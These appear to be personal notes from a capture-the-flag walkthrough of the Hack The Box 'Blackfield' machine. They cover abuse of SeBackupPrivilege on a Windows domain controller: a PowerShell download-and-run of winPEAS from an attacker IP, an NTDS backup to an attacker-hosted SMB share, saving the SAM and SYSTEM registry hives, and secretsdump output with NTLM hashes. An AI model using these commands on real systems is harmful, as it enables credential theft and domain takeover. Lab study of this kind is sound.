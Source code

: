 
```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

![[Pasted image 20231119111436.png]]

![[Pasted image 20231119111320.png]]

![[Pasted image 20231119112711.png]]
they haven't disabled the auditor's account which means we can have look into 
nominative domain admin accounts.

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.8:8080/winPEASany.exe') | powershell -noprofile -
```


```
Privilege   : SeBackupPrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 14180
ProcessId   : 2528
Name        : 2528
Check       : Process Token Privileges

Privilege   : SeRestorePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 14180
ProcessId   : 2528
Name        : 2528
Check       : Process Token Privileges

ModifiablePath    : C:\Users\svc_backup\AppData\Local\Microsoft\WindowsApps
IdentityReference : BLACKFIELD\svc_backup
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\svc_backup\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\svc_backup\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath
                    'C:\Users\svc_backup\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

DefaultDomainName    : BLACKFIELD
DefaultUserName      : Administrator
DefaultPassword      :
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons

TaskName     : Server Initial Configuration Task
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=AppendData/AddSubdirectory}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               /></Triggers>
Name         : Server Initial Configuration Task
Check        : Modifiable Scheduled Task Files

TaskName     : Server Initial Configuration Task
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=WriteData/AddFile}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               /></Triggers>
Name         : Server Initial Configuration Task
Check        : Modifiable Scheduled Task Files

TaskName     : Proxy
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=AppendData/AddSubdirectory}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               id="AutochkProxy"><Delay>PT30M</Delay></BootTrigger></Triggers>
Name         : Proxy
Check        : Modifiable Scheduled Task Files

TaskName     : Proxy
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=WriteData/AddFile}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               id="AutochkProxy"><Delay>PT30M</Delay></BootTrigger></Triggers>
Name         : Proxy
Check        : Modifiable Scheduled Task Files

TaskName     : SpaceManagerTask
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=AppendData/AddSubdirectory}
TaskTrigger  : <Triggers xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               ><Enabled>false</Enabled><Delay>PT2M</Delay></BootTrigger><WnfStateChangeTrigger><St
               ateName>7510BCA33E1E8702</StateName></WnfStateChangeTrigger></Triggers>
Name         : SpaceManagerTask
Check        : Modifiable Scheduled Task Files

TaskName     : SpaceManagerTask
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=WriteData/AddFile}
TaskTrigger  : <Triggers xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><BootTrigger
               ><Enabled>false</Enabled><Delay>PT2M</Delay></BootTrigger><WnfStateChangeTrigger><St
               ateName>7510BCA33E1E8702</StateName></WnfStateChangeTrigger></Triggers>
Name         : SpaceManagerTask
Check        : Modifiable Scheduled Task Files

TaskName     : Recovery-Check
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=AppendData/AddSubdirectory}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><LogonTrigger
               /></Triggers>
Name         : Recovery-Check
Check        : Modifiable Scheduled Task Files

TaskName     : Recovery-Check
TaskFilePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users;
               Permissions=WriteData/AddFile}
TaskTrigger  : <Triggers
               xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"><LogonTrigger
               /></Triggers>
Name         : Recovery-Check
Check        : Modifiable Scheduled Task Files
```


i think this much enumeration is more than enough and i think i should dig more into
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled

As you can see that we have to do backup of a windows PC and will try with hosting a SMB server first but we already now that it will fail as windows supports NTDS file system

Host an smb server
```
smbserver.py -smb2support -user testing -password testing SendYourData $(pwd)
```
![[Pasted image 20231119122121.png]]
We are able to connect successfully 

```
net use x: \\10.10.16.8\SendYourData /user:testing testing
```

```
wbadmin start backup -backuptarget:\\10.10.16.8\SendYourData -include:c:\windows\ntds\
```
![[Pasted image 20231119123022.png]]
We got this error while mounting 

```
dd if=/dev/zero of=ntfs.disk bs=1024M count=2
```
![[Pasted image 20231119133507.png]]
```
losetup -fP ntfs.disk
losetup -a 
sudo mkfs.ntfs /dev/loop0   
sudo mount /dev/loop0 smb/ 
mount | grep smb
```
![[Pasted image 20231119134449.png]]

![[Pasted image 20231119134604.png]]


We have to change the setting in the smb.conf
```
nano /etc/samba/smb.conf
```

```
[SendYourData]
   comment = Pentester Can only Cum In
   browseable = yes
   path = /tmp/
   guest ok = yes
   read only = no
   force user = testing
```

```
echo "Y" | wbadmin start backup -backuptarget:\\10.10.16.8\SendYourData -include:c:\windows\ntds
```
![[Pasted image 20231119125856.png]]
We have to make a ntds file system so that we can take backup

Finally it worked
![[Pasted image 20231119141138.png]]
![[Pasted image 20231119141215.png]]


So we don't have to have the NTDS file system we have 2 options here one is to make temp folder in c and simply copy the .ndts file in that but will come back to smb 

We have to make change and let the guest to login in without any id and password aka guest login.
![[Pasted image 20231119154028.png]]
![[Pasted image 20231119154216.png]]

Not able to successfully mount the ntds share so used different path

I will simply same the reg sam and security file in temp
```
reg save hklm\sam C:\temp\sam
reg save hklm\system C:\temp\system
```
![[Pasted image 20231119170016.png]]

I saved the sam and system file in the profile share so that i can simply download it from there.
![[Pasted image 20231119171803.png]]
![[Pasted image 20231119171821.png]]

```
secretsdump.py -sam sam -system system LOCAL
```
![[Pasted image 20231119171941.png]]

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

So the hashes didn't worked so we have to get our hands on .ndtis file

